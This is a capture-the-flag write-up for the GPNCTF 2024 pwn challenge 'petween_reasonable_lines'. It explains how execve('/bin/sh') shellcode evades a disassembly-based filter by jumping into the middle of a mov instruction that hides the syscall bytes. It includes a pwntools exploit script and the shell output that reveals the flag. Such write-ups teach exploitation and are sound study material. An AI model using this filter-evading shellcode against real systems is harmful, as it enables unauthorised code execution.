 ```yaml
---
author: aayushborkar14
pubDatetime: 2024-06-10T00:00:00Z
title: GPNCTF 2024 - Pwn petween_reasonable_lines
slug: "GPNCTF2024petween_reasonable_lines"
featured: false
tags:
  - pwn
  - GPNCTF
description: "Writeup of the pwn challenge petween_reasonable_lines in GPNCTF 2024"
---
```


# GPN CTF 2024

## pwn/petween-reasonable-lines

## Introduction

This is a shellcode assembly challenge.
We're given a perl script `vuln.pl`:

```perl
#!/usr/bin/perl
use strict;
use DynaLoader;
use IPC::Open2;

print "Disassemble what?\n";
$| = 1;
my $s = 42;
my $p = syscall(9, 0, $s, 2, 33, -1, 0);
syscall(0, 0, $p, $s);
my $c = unpack "P$s", pack("Q", $p);

open2 my $out, my $in, "ndisasm -b64 -";
print $in $c;
close $in;
for (<$out>) {
 print $_;
 if (/syscall|sysenter|int|0x3b/) {
  die "no hax pls";
 }
}

print "Looks safe.\n";
syscall(10, $p, $s, 4);
&{DynaLoader::dl_install_xsub("", $p)};
```

Understanding the perl code is not required to solve the challenge. But here is a breakdown of the important parts of the code:
<br>
`$p` is the address of the memory region created by calling `mmap` (syscall 9) with `PROT_WRITE` flag.
Next, the program is reads `$s` (42) bytes from the standard input into `$p` (using syscall 0).
`$c` is the shellcode that we read from the standard input.
<br><br>
The program then disassembles the shellcode (and prints every line) using `ndisasm` and filters out `syscall`, `sysenter`, `int`, `0x3b`.
It uses `mprotect` (syscall 10) to set the memory to `PROT_EXECUTE` only and uses DynaLoader to load and execute the shellcode.
So, we're expected to write a shellcode to make a `execve(/bin/sh)` call without using any of the filtered instructions.

## Writing basic shellcode

First, let's write some `nasm` shellcode that uses `syscall` to make a `execve(/bin/sh)` call.

```nasm
global _start
section .text
_start:
    mov rdi,0x68732f2f6e69622f
    push 0
    push rdi
    push rsp
    pop rdi
    xor rax, rax
    xor rsi, rsi
    xor rdx, rdx
    mov al, 59
    syscall
```

This basically loads the string `/bin//sh` into `rdi`. But `execve` expects a pointer to the string as the first argument (`rdi`). So, we push the address of the string onto the stack and load it into `rdi` (the `push 0` is for the null terminator). Then, we zero out `rax`, `rsi`, `rdx` (making other arguments 0 to be safe) and set `rax` to `59` (the syscall number for `execve`). Finally, we make the syscall.
<br>
Assembling and running this code via `nasm -felf64 shellcode.s && ld shellcode.o -o shellcode && ./shellcode` gives us a shell, as expected.

## Exploit

Viewing the code at [godbolt](https://godbolt.org/>) gives us the following disassembly:<br><br>
![Disassembly](godbolt1.jpeg)<br><br>
The lines using `0x3b` and `syscall` in hex are `b0 3b 0f 05`. So if we write a valid instruction that contains these bytes, and if we jump to the middle of that instruction to the `b0 3b 0f 05` part, then out desired instructions will be executed and the instruction wouldn't trigger any of the filters.
<br><br>
Since, our desired instructions are of 4 bytes, we can write a `mov` instruction from `0x050f3bb0` (the instruction in little endian) into any of the 4 byte registers.
`mov eax, 0x050f3bb0` translates to `b8 b0 3b 0f 05` in hex.
<br><br>
Next, we write some code that jumps to the middle of the `mov` instruction:<br><br>
![Disassembly](godbolt2.jpeg)<br><br>
Finally, we write a `pwntools` script to send this shellcode to the server:

```python
from pwn import *

context.arch = "amd64"
a = asm("""
movabs rdi, 0x68732f2f6e69622f
push 0x0
push rdi
push rsp
pop rdi
xor rax, rax
xor rsi, rsi
xor rdx, rdx
lea rbx, [rip + 0x3]
jmp rbx
mov eax, 0x50f3bb0""")

# p = process("./vuln.pl")
p = remote("xxx.ctf.kitctf.de", "xxx", ssl=True)
p.recvuntil(b"Disassemble what?")
p.sendline(a)
p.recvuntil(b"Looks safe.")
p.interactive()
```

Running this script gives us a shell:

```bash
[+] Opening connection to xxx.ctf.kitctf.de on port xxx: Done
[*] Switching to interactive mode

$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
GPNCTF{On3_d0es_Not_s1mply_Jump_int0_th3_m1ddle_of_4n_instruct1ion!!1}
```

